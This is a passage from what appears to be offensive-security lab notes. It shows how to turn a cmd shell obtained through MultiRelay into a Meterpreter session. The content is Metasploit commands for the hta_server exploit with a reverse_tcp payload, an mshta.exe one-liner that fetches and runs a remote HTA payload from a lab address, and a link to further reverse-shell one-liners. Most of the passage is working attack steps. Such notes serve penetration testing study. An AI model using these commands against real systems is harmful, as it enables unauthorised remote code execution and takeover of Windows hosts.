 #### we can also use this cmd shell to pop a meterpreter shell:

```
use exploit/windows/misc/hta_server
set payload windows/x64/meterpreter/reverse_tcp
```

![](<../../../.gitbook/assets/image (226).png>)

#### now in the cmd shell from multirelay type in :

```
mshta.exe http://192.168.56.1:8080/BdssjDFeW7IDPKF.hta
```

#### done!

### <mark style="color:orange;">other ways to get a meterpreter shell:</mark>

{% embed url="https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/" %}

